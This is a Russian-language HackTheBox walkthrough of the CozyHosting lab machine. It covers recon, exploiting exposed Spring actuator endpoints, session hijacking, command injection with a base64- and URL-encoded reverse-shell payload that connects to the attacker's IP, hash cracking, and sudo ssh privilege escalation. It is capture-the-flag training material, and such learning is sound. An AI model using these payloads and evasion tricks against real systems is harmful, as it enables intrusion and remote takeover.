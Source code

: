 # HackTheBox: CozyHosting

Используем Nmap для сканирования машины:
```sh
nmap -p- 10.10.11.230
```
![ScreenShot](screenshots/1.png)

```sh
nmap -sC -sV 10.10.11.230
```
![ScreenShot](screenshots/2.png)

Сразу по отчету Nmap замечаем, что не произведен редирект на `http://cozyhosting.htb`, поэтому добавим запись в файл **/etc/hosts** с указанным доменным именем:

![ScreenShot](screenshots/3.png)

Далее переходим на сайт:

![ScreenShot](screenshots/4.png)

Из всех доступных на начальной странице кнопок работает только кнопка входа, которая перемещает нас на соответствующую форму:

![ScreenShot](screenshots/5.png)

Сканируем сервис на наличие других директорий:

![ScreenShot](screenshots/6.png)

Обратим внимание на `/error` и содержимое, которое возвращается от него:

![ScreenShot](screenshots/7.png)

Данный шаблон присутствует в фреймворке **Spring**. Возможно, стоит посмотреть в сторону его эндпойнтов (https://docs.spring.io/spring-boot/docs/2.1.13.RELEASE/reference/html/production-ready-endpoints.html):

![ScreenShot](screenshots/8.png)

Основная директория, как следует из документации, на которую надо опираться - **/actuator/**, поэтому продолжим поиск директорий через gobuster:

![ScreenShot](screenshots/9.png)

Исследуем найденные эндпойнты:

![ScreenShot](screenshots/10.png)

![ScreenShot](screenshots/11.png)

![ScreenShot](screenshots/12.png)

Во-первых, мы находим сессию под неким **"kanderson"**. Во-вторых, обнаружимаем **/addhost** и **/executessh**

В куке меняем значение сессии (значение сессии пользователя kanderson) и успешно попадаем на страницу:

![ScreenShot](screenshots/13.png)

![ScreenShot](screenshots/14.png)

Находим **Cozy Scanner**, который тестирует подключение к хосту. Пробуем выяснить, уязвима ли данная форма к Command Injection:

![ScreenShot](screenshots/15.png)

А вот и тот самый **/executessh**:

![ScreenShot](screenshots/16.png)

> Не забываем подставлять в куки значение сессии от пользователя kanderson

Перенесем данный запрос в Repeater:

![ScreenShot](screenshots/17.png)

Способы выполнения команд при Command Injection:

![ScreenShot](screenshots/18.png)

Если подставить две одинарные косые кавычки, команда исполнится (+ перед команды надо разделить через символ - **;**)

![ScreenShot](screenshots/19.png)

Получили `uid=1001(app)`, значить, команда **id** была успешно выполнена (также работает и способ с `$(id))`. В таком случае, пробуем получить Reverse Shell:

```sh
1) bash -i >& /dev/tcp/10.10.14.48/4444 0>&1 (кодируем в base64) - YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDQ0IDA+JjE=

2) echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDQ0IDA+JjE="${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash - через echo и base64 -d декодируем уже на жерте команду для исполнения, затем команда bash исполняет декодированную команду

Используем ${IFS}, так как сервер не пропускает обычные пробелы
```

> Не забываем: nc -lvnp 4444 в отдельном терминале

![ScreenShot](screenshots/20.png)

Но тут почему-то наша команда не исполнилась. Причина заключалась в спец. символах от IFS. Просто прогоним все выражение через **url encoder** и вновь попробуем исполнить команду на стороне жертвы.

```sh
echo%24%7BIFS%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDQ0IDA%2BJjE%3D%22%24%7BIFS%7D%7C%24%7BIFS%7Dbase64%24%7BIFS%7D-d%24%7BIFS%7D%7C%24%7BIFS%7Dbash
```

![ScreenShot](screenshots/21.png)

Пришел ответ **504 Gateway Time-out** и мы получили прямой доступ к жертве:

![ScreenShot](screenshots/22.png)

В директории **/app** находим файл с расширением **.jar**. Через сервер на питоне скачиваем его:

![ScreenShot](screenshots/23.png)

![ScreenShot](screenshots/24.png)

Открываем файл через **jd** и обнаруживаем логин и пароль для подключения к БД:

![ScreenShot](screenshots/25.png)

Подключаемся к БД и просматриваем таблицы:

![ScreenShot](screenshots/26.png)

Находим захэшированные пароли от пользователей. Через **hashid** узнаем алгоритм хэширования:

![ScreenShot](screenshots/27.png)

Через **hashcat** получаем пароль **manchesterunited** (-m 3200 - bcrypt):

![ScreenShot](screenshots/28.png)

Находим пользователя **josh** внутри системы, скорее всего это и есть **admin**, от которого мы узнали пароль:

![ScreenShot](screenshots/29.png)

Пробуем подключиться:

![ScreenShot](screenshots/30.png)

Забираем первый флаг:

![ScreenShot](screenshots/31.png)

Просматриваем, команды, которые нам доступны относительно sudo:

![ScreenShot](screenshots/32.png)

Нам доступна команда **ssh**. На GTFORBins находим способ повышения привилегий через данную команду и получаем рута, а вместе с ним и заключительный флаг:

![ScreenShot](screenshots/33.png)

![ScreenShot](screenshots/34.png)
